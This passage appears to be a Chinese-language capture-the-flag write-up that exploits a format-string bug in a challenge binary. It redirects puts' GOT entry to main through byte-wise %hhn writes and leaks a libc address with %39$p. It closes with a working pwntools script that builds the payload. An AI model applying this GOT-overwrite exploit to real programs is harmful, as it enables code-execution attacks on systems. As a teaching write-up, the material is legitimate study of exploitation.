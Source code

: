 首先來看需求 1，需要想辦法修改回 main，我們可以做的方式有以下兩種

1. 修改 return address 成 main
2. 修改某個函式的 GOT

第一種方式雖然很簡單易懂，但是不可行，假如我們要用第一個方式的話會將 payload 寫成 `f"%{0x401152}c%XX$n"`，`0x401152` 是 main 的位置，而 `%XX$n` 是因為是假設我們在參數 XX 位置寫下放 return address 的記憶體的位置，這樣子的問題在我們並不知道該位置，除非我們有辦法在前面某個地方就先 leak 出來

而第二種方式看起來不太可行，因為從原始碼來看 16 行後面也還是 printf 阿幹，改掉了之後後面只要遇到 printf 就會跳回 main ㄟ，也就沒辦法再次利用了

不過這個是題目的陷阱，因為從 assembly 來看，最後的 printf 其實是 puts (puts: 哈哈是我啦)，所以我們可以透過改 puts 的 GOT 成 main，即可解決需求一

![](https://i.imgur.com/J3g72Zu.png)

![](https://i.imgur.com/CJvRDC8.png =200x)

不過我們不可能直接寫成像是前面舉例的 `f"%{0x401152}c%XX$n"` 這樣格式，因為 printf 印出是需要花時間的，尤其是印這麼大的數一定會花上爆幹久的時間

這個部份我們有一個特殊的利用方法，也就是分開每個 bytes 來填數值，舉例來說像是我們要填的 puts.got 位置為 0x404018，而我們需要填入 main 的位置 0x401152，那我們可以產生 0x404018, 0x404019, ... 到 0x404025 這 8 個位置，並分別填入 0x18, 0x40, 0x40, 0x00, ... 等數值，這樣一來就只會印出 0x18+0x40+0x40+0x0... 的字元數而已，印起來不太花時間，完美

![](https://i.imgur.com/kbcWbIe.png =300x)

而不過要注意的是印出字元數是會持續累計的，所以不會直接是 `f"%{0x18}c%XX$hhn%{0x40}c%XX$hhn%{0x40}c%XX$hhn"` 這樣，一般來說這邊有兩種放法

1. 位置順序排程: 假如要寫 0x401230 給 0x404040，則會寫成 `f"%{0x12}c%10$hhn%{0x30-0x12}c%11$hhn%{0x40-0x30}c%12$hhn{p64(0x404041)}{p64(0x404042)}{p64(0x404040)}"`，注意後面存入順序是依照寫入字元數大小來排序
2. 字元數 overflow: 同前面例子，會寫成 `f"%{0x40}c%10$hhn%{(0x12-0x40)&0xff}c%11$hhn%{(0x30-(0x12-0x40)&0xff)&0xff}c%12$hhn{p64(0x404040)}{p64(0x404041)}{p64(0x404042)}"`，後面存入順序是照順序而字元數會因為加法 overflow 而存入最低幾位

以下我們會使用放法 2

另外順便講一下需求 4 好了，反正就是在最前面直接放 `%XX$n` 然後存入順序把 `main_called` 放第一個即可  (畢竟是填 0)，字元數不會動因為 `%XX$n` 不會印出任何字元

然後需求 2 的部分直接用 `%39$p` 來 leak return address 即可，因為 main 的 return address 會到 libc 裡頭所以就可以據此計算偏移量，數字 39 是因為參數的第 $6 + \frac{256}{8} + 1 = 39$ 而來，另外要注意的就是印的部分放字元數 payload 後面 address 中間，因為放字元數 payload 前會影響字元數的計算，而放 address 之後會因為 address 有 `\x00` 的原因而印不出來

總之說了一大段，這部分 payload 如下
:::spoiler
```python
main_called = elf.symbols["main_called"] # 0x40406c
main = elf.symbols["main"] # 0x401152
puts_got = elf.got["puts"] # 0x404018

writecommand_length = 0x70
writeaddr_begin = 0x80

## write command section
payload = f"%{6+writeaddr_begin//8}$n".encode()
num_temp = main
total = 0
for i in range(8):
    writenum = ((num_temp&0xff) - total) & 0xff
    if(writenum != 0):
        payload += f"%{writenum}c".encode()
    payload += f"%{6+writeaddr_begin//8+1+i}$hhn".encode()
    total += writenum
    num_temp //= 0x100
payload = payload.ljust(writecommand_length, b".")
## leak libc section
payload += f"[%{6+256//8+1}$p]".encode()
payload = payload.ljust(writeaddr_begin, b".")
## writeaddr section
payload += p64(main_called)
for i in range(8):
    payload += p64(puts_got+i)
conn.sendlineafter(b"Lyrics: ", payload)
```